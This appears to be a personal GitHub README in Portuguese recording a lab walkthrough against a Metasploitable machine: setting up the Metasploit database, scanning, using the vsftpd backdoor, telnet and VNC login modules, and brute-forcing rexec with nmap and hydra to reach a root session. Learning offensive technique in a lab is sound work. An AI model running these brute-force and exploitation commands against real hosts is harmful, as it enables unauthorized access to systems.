  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
---- dentro do MSFCONSOLE
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
------------------------------
# criando workspace desse computador
![image](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)
# serviços
![image](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)
# informaçoes de host
![image](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)
# Procurando diretorios escondidos
![image](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

# PROFUNDANDO
![image](https://github.com/user-attachments/assets/6bbef33c-f8f6-4ff4-aed0-ec8f4a0920d0)
![image](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)





Depois de conseguir acesso como root usando o payload de:
CRTL + Z ;
Y ;

sessions
para acessar a sessao ;
sessions -i 2 ;

![image](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 

